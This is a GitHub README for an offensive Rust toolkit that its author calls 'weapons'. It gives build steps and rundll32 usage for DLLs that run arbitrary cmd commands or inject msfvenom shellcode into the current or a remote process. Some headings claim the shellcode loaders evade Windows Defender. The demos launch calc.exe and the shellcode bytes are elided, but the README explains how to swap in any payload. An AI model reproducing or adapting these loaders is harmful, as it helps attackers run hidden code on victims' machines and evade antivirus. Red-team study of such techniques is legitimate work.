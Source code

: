 # Rust Attack

![image](https://user-images.githubusercontent.com/78645074/152182659-b52176eb-07e2-49e9-af39-7304d097f077.png)


This repository is inspired by different Rust repositories in order to define my own Offensive Windows Rust cheatsheet and weapons.
The entire project has been developed and compiled on a Linux machine.

## Index

- [RustAttack](#rustattack)
  * [Examples](#examples)
    * [DLLs](#dlls)
      - [MsgBox](#msgbox)
      - [Code Execution](#code-execution)
      - [Shellcode - CreateThread method](#shellcode---createthread-method-no-av-detection-defender---02022022)
    * [Executables ToDo](#executables)
  * [Other Rust Projects](#other-rust-projects)

## Examples

### DLLs
You can find 3 different projects inside _01_DLLs/_
```
$ ls 01_DLLs
code_execution  msgbox  shellcode_CreateThread
```
#### MsgBox
Launch a simple Windows prompt.

```
$ cd /01_DLLs/msgbox
$ ls
Cargo.toml  src
$ cargo build --target x86_64-pc-windows-gnu --lib
```
This generate a **.dll** file with the export function _exec_. It is located at: _target/x86_64-pc-windows-gnu/debug/_
```
$ ls
build  deps  examples  incremental  libmsgbox_dll.dll.a  msgbox_dll.d  msgbox_dll.dll
```
![image](https://user-images.githubusercontent.com/78645074/152153443-d6f23873-1c49-4189-929c-acd127edac77.png)


For execute it in Windows:

```
C:\>rundll32 msgbox_dll.dll,exec
```
![image](https://user-images.githubusercontent.com/78645074/152153601-f6f3656f-ae6b-4868-b9e0-14409fbef73f.png)


#### Code Execution
Execute commands from a new cmd process.

```
$ cd 01_DLLs/code_execution
$ ls
Cargo.toml  src
$ cargo build --target x86_64-pc-windows-gnu --lib
```

This generate a **.dll** file with the export function _exec_. It is located at: _target/x86_64-pc-windows-gnu/debug/_
```
$ ls
build  code_execution_dll.d  code_execution_dll.dll  deps  examples  incremental  libcode_execution_dll.dll.a
```
![image](https://user-images.githubusercontent.com/78645074/152176734-f562faaa-6082-46bd-b391-1ebfd8c5c830.png)

For execute it in Windows:

```
C:\>rundll32 code_execution_dll.dll,exec
```

![image](https://user-images.githubusercontent.com/78645074/152177263-05b67e8d-03db-4037-909a-9ef93ca21cba.png)

##### Customization
To change the purpose and/or command execution of the DLL, open _lib.rs_ modify the following line and recompile:

```
let output = Command::new("cmd").args(&["/C", "calc.exe"]).output().expect("failed to execute process");
```
#### Shellcode - CreateRemoteThread method [NO AV DETECTION (DEFENDER) - 03/02/2022]
Launch a shellcode inside a especific process. **This example execute a shellcode generated by msfvenom which launch calc.exe.**

```
$ cd 01_DLLs/shellcode_CreateRemoteThread
$ ls
Cargo.toml  src
$ cargo build --target x86_64-pc-windows-gnu --lib
```

This generate a **.dll** file with the export function _exec_. It is located at: _target/x86_64-pc-windows-gnu/debug/_
```
$ ls
build  deps  examples  incremental  libshellcodeshellcode_create_remote_thread_dll.dll.a  shellcode_create_remote_thread_dll.d  shellcode_create_remote_thread_dll.dll
```

For execute it in Windows:

```
C:\>rundll32 shellcode_create_remote_thread_dll.dll,exec
```

![image](https://user-images.githubusercontent.com/78645074/152311940-409a60a4-02e4-4f24-b229-98f7e348c9f0.png)


##### Customization
To change the purpose and/or shellcode of the DLL, open _lib.rs_ modify the following line and recompile:

```
let shellcode:[u8;276] = [0xfc, 0x48, ... <blablabla>];
```

#### Shellcode - CreateThread method [NO AV DETECTION (DEFENDER) - 02/02/2022]
Launch a shellcode inside the current process. **This example execute a shellcode generated by msfvenom which launch calc.exe.**

```
$ cd 01_DLLs/shellcode_CreateThread
$ ls
Cargo.toml  src
$ cargo build --target x86_64-pc-windows-gnu --lib
```

This generate a **.dll** file with the export function _exec_. It is located at: _target/x86_64-pc-windows-gnu/debug/_
```
$ ls
build  deps  examples  incremental  libshellcode_createThread_dll.dll.a  shellcode_createThread_dll.d  shellcode_createThread_dll.dll
```
![image](https://user-images.githubusercontent.com/78645074/152154583-b85ad5db-d9eb-4d3d-b7dc-2214064c4db6.png)

For execute it in Windows:

```
C:\>rundll32 shellcode_createThread_dll.dll,exec
```
![image](https://user-images.githubusercontent.com/78645074/152155070-9699ac8f-cb8d-4014-8be1-8c9e8155c596.png)

##### Customization
To change the purpose and/or shellcode of the DLL, open _lib.rs_ modify the following line and recompile:

```
let shellcode:[u8;276] = [0xfc, 0x48, ... <blablabla>];
```

**NOTE**: you must specify shellcode length.

### Executables

## Other Rust Projects

Interesting links for other offensive Rust project:
- https://github.com/trickster0/OffensiveRust
- https://github.com/kmanc/remote_code_oxidation
- https://github.com/skerkour/black-hat-rust
